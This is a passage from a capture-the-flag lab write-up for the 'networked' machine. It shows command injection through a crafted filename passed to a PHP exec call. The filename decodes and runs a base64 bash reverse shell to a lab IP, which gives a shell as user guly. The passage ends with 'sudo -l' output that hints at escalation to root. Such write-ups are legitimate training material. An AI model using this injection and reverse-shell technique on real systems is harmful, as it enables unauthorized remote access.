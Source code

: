 ```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

This passes the `$value` directly to a bash command.

With we can create a file with a malicious name where we'll inject a command.

First let's create a base64 of a reverse shell.

```bash
$ echo 'bash  -i >& /dev/tcp/10.10.10.10/9001 0>&1  ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvOTAwMSAwPiYxICAK
```

Now let's create the file where the name is a command that's will decode this reverse shell and pip it to bash.

```bash
bash-4.2$ touch 'ha;echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTcuOTAvOTAwMiAwPiYxICAK | base64 -d | bash;ck'
bash-4.2$ ls
10_10_17_90.php.png
127_0_0_1.png
127_0_0_2.png
127_0_0_3.png
127_0_0_4.png
ha;echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTcuOTAvOTAwMiAwPiYxICAK | base64 -d | bash;ck
index.html
```

We created the file successfully, now let's setup our listener and wait.

![](7.png)

We upgraded to guly!

### guly --> root

Let's check our privileges with `sudo -l`

```bash
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$ 
```
